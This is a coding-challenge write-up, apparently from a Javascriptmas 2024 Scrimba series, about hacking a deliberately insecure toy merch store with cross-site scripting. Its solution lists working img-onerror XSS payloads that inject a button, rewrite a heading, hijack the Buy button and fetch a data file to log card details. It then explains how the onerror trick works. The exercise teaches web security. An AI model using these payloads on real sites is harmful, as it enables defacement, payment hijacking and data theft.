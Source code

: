 # Day 12 - Hack Santa's Merch Store 🎅

## Challenge

Santa wants to monetize Christmas so he has set up a merch store. To save money, he got a junior dev from the cheapest dev shop in the backstreets of Lapland to write the code.

The site is taking shape, but now Santa is concerned that it might not be secure, so it's time for you to put on your ethical hacker hat and see if you can do the following:

⚠️ **IMPORTANT 1:** When tackling tasks 1, 2 and stretch goals, you are not allowed to edit index.html, index.js, data.js, or index.css in any way! For task 3 you may edit these files.

⚠️ **IMPORTANT 2:** Any code you use to complete tasks 1 or 2 must be pasted into mySolution.js 👈. If you fail to do this your entry will not count!

***Task 1***
+ Render a button that, when pressed, logs 'You have been hacked 🏴‍☠️' to the console just to prove there are vulnerabilities.

***Task 2***
+ Change the product title h2 to "Do not buy this".

***Task 3***
+ Fix the code so it's unhackable! 

🔥***Stretch Goals*** 👇 - these are only for really dedicated (ethical 😇) hackers to do BEFORE task 3 above.

***Task 4***
+ Hijack the Buy button so when it is clicked it calls a new function. The new function should log 'diverting payment to my account 💰'

***Task 5***
+ Log out the credit card details.

## Solution

| [Scrim code](https://scrimba.com/exercise-s04gtmm45p) |
| --- |

![](../assets/gifs/day-12.gif)

```html
/*
Copy and paste each line below into the textarea as the answer for each task.
*/

// Task #1

<button onclick="console.log('You have been hacked 🏴‍☠️')" style="background-color:slateblue;">Click me! 😃</button>

// Task #2

<img src="" onerror="document.querySelector('h2').textContent = 'Do not buy this'">

// Task #4

<img src="" onerror="document.getElementById('prod-buy').addEventListener('click', () => console.log('Diverting payment to my account 💰'))"> 


// Task #5

<img src="" onerror="fetch('./data.js').then(res => res.text()).then(data => console.log(data))">
```

### *XSS - Cross-Site Scription*
XSS (Cross-Site Scripting) is a type of attack where someone inserts malicious code (usually JavaScript) into a web page that other people visit.

```js
<img src="" onerror="document.querySelector('h2').textContent = 'Do not buy this'">
```

#### *Explanation*:

1. `<img src=""`:
    + It tries to load an image with an invalid source (`src=""`), which triggers an error.

1. `onerror`:
    + The `onerror` attribute executes JavaScript when the image fails to load.

1. **JavaScript Code**:
    ```js
    document.querySelector('h2').textContent = 'Do not buy this';
    ```
    + Selects the first `<h2>` element on the page.
    + Changes its text to **"Do not buy this"**.

#### *Result*:
The text of the first `<h2>` on the page is dynamically replaced with "Do not buy this" when the browser executes the code.

---
[🔙 Javascriptmas 2024](../README.md)